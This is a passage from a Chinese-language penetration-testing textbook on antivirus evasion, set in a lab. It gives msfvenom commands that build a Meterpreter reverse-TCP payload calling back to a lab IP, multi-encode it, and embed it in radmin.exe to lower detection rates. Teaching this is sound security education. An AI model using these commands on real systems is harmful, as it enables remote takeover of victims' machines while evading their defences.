 为了看看是否可以改进我们的结果，我们可以尝试使用多个 Metasploit 编码器对有效载荷进行实验。例如，我们可以将多轮*shikata_ga_nai*与另一个 Metasploit 编码器*x86/bloxor*结合使用，正如示例 12-4 所示。

示例 12-4. 使用 Msfvenom 进行多重编码

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -e x86/shikata_ga_nai -i 10 -f raw**❶ **> meterpreterencoded.bin**❷
[*] x86/shikata_ga_nai succeeded with size 317 (iteration=1)
--*snip*--
[*] x86/shikata_ga_nai succeeded with size 560 (iteration=10)
root@kali:~# **msfvenom -p -**❸ **-f exe -a x86**❹ **--platform windows**❺ **-e x86/bloxor -i 2 > meterpretermultiencoded.exe < meterpreterencoded.bin**❻
[*] x86/bloxor succeeded with size 638 (iteration=1)
[*] x86/bloxor succeeded with size 712 (iteration=2)
```

这次，我们像之前一样使用 Msfvenom，选择*windows/meterpreter/reverse_tcp*有效载荷并使用*shikata_ga_nai*进行编码。然而，与之前设置格式为*.exe*不同，这次我们输出为原始格式❶。另外，这次我们不是将结果输出到*.exe*文件中，而是将原始字节输出到*.bin*文件❷中。

现在我们使用*shikata_ga_nai*编码器的结果，并用*x86/bloxor*编码器进行编码。我们在使用 Msfvenom 时的语法与我们通常使用的有所不同。首先，我们通过选项`-p -` ❸将有效载荷设置为 null。并且，由于我们没有设置有效载荷，我们需要附加两个新选项，告诉 Msfvenom 如何编码我们的输入：`-a x86` ❹指定架构为 32 位，`--platform windows` ❺指定平台为 Windows。最后，在 Msfvenom 命令的末尾，我们使用`<`符号将前一个命令的*.bin*文件作为输入管道传入 Msfvenom ❻。生成的可执行文件将使用*shikata_ga_nai*和*x86/bloxor*编码。

生成的可执行文件在 VirusTotal 上的 33 个杀毒程序中被检测到——比单独使用*shikata_ga_nai*稍微好一些。你可能可以通过尝试不同的编码器组合，或将多个编码器连接在一起，或者通过结合不同技术来改善你的结果。例如，如果我们将有效载荷嵌入二进制文件并像这里展示的那样用*shikata_ga_nai*进行编码，结果会怎么样呢？

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -x /usr/share/windows-binaries/radmin.exe -k -e x86/shikata_ga_nai -i 10 -f exe > radminencoded.exe**
```

这只带来了轻微的改进：有效载荷被 21 个杀毒程序检测到。不幸的是，Microsoft Security Essentials 将这两个可执行文件都标记为恶意，如图 12-7 所示。如果我们要绕过杀毒软件检测，我们需要超越 Metasploit 编码器，去看更多的解决方案，尤其是针对 Windows 7 目标。

![Microsoft 仍然将此二进制文件标记为恶意。](img/httpatomoreillycomsourcenostarchimages2030416.png.jpg)图 12-7. Microsoft 仍然将此二进制文件标记为恶意。

### 自定义交叉编译

作为渗透测试的事实标准，Metasploit 吸引了相当多的杀毒软件厂商的关注，他们将为 Msfvenom 生成的有效载荷创建检测特征作为优先任务。当 Msfvenom 创建可执行文件时，它使用预构建的模板，这些模板可以被杀毒软件厂商用来构建检测特征。

或许我们可以通过自己编译一个可执行文件来提高绕过杀毒软件的能力，使用原始 shellcode。让我们从一个简单的 C 模板开始，如示例 12-5 所示。（我们在第三章中讨论了 C 编程的基础。如果这个程序对你来说没有意义，请回顾那一节。）将此代码保存到一个名为*custommeterpreter.c*的文件中。

示例 12-5. 自定义可执行文件模板


 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework